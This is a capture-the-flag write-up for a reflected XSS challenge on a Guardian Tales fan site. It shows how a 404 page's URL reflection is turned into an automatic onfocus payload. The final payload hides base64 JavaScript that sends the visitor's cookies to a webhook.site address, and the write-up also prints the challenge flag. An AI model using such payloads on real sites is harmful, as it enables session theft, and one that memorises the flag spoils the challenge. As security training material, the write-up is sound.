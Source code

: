 # UREL-EX2S

> Have you heard the exciting news? The little princess has just created a website for fellow GT fans to connect and chat! Before the official launch, we want to ensure a secure experience for everyone. Could you help us by testing it for potential XSS vulnerabilities? We want to make sure her fans don't encounter any issues with data security, especially from those pesky Android robots.

## About the Challenge
We were given a source code (You can download the source code [here](dist.zip)) and the website. The source code is actually quite simple; there's no crazy controller, complicated structure, etc.


[Image extracted text: Guhm
Guardian Tales
Home
Characters
Story
Guides
Now
Embark on an Epic Adventure
in Guardian Tales
GUARDSAN
TALES
NINTENDO SWITCH
Join the world of Guardian Tales and experience a captivating storyline, exciting
battles, and a vibrant community:
Play Now
Learn More
Play]


## How to Solve?
There's an interesting thing in the 404 page, when I input a random string in the URL (Ex: http://example/ddd). Our input reflected in the source code


[Image extracted text: HTTP 404
Reload
58 Elements
Console
Sources
Network
Timelines
8 Storage
ddd
Response
<!DOCTYPE html>
<html>
<head>
<meta
charset-'utf-8' >
<meta
name='viewport
content-'width-device-Width,
initial-scale-1'>
<title-Guardian Tales</title>
<script
src-'https://cdn.tailwindcss.com
2</script>
~/head>
<body class=' container box-border flex flex-col
items-center justify-center h-screen
mX-auto text-center text-White bg-zinc-800' >
om
<hl
class=
inline-block text-left
text-red-300
W-fit
<span class=
my-4
text-xl font-semibold'>HTTP 404</spanz<brz
<span class=
my-4
text-4xl font-bold
<1
'spanz<brz
<a
href=' /ddd
class='px-4
text-white bg-red-500
rounded-md '>Reload</a>
</hl>
</body>
</html>
pX-4
py-2]


I can close the tag by adding a quote in the url, and then I tried to use `<` and `>` to create a new HTML tag but the website encoded our input 


[Image extracted text: Uo4]
L00?
La Liei
DO
Lei
ea
en
3ud
<hl class=
inline-block text-left
text-red-300
W 
<span class=
my-4 text-xl
font-semibold '>HTTP
<span class-'my
text4xl
font-bold
</spanz<brz
<a
href=' /ddd
class='px-4
text-white bc
</hl>
/body>
Ihtml>
py-2]


Because of the bot doesn't interact with the inputted url, We need to find a way to make the XSS payload executed without user interaction and I found this [tweet](https://twitter.com/RenwaX23/status/1122606900154130432)

Yayyy, so I tried to create a XSS payload again based on the tweet above, and there's an alert xD


[Image extracted text: 12
Close]


```
http://app:8080/ddd'onfocus='alert(12)'name='jj#jj
```

More or less, the final payload looks like this
```
http://app:8080/ddd'style='x'onfocus='eval(atob(this.id))'id='d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzU1YWY3MzI2LWI5OTYtNGNjYS05OWM1LWM3ZmMzYzNhN2Y4My8/Jytkb2N1bWVudC5jb29raWUp'name='jj#jj
```

Input the payload to the bot form, and then check webhook.site to get the flag


[Image extracted text: upgrade-insecure-
requests
host
webhook. site
content-length
content-type
Query strings
Form values
flag
STS23{xss_
in_url_path !you_must_
be_kidding_right?}
(empty)
Files
No content]


```
STS23{xss_in_url_path!you_must_be_kidding_right?}
```
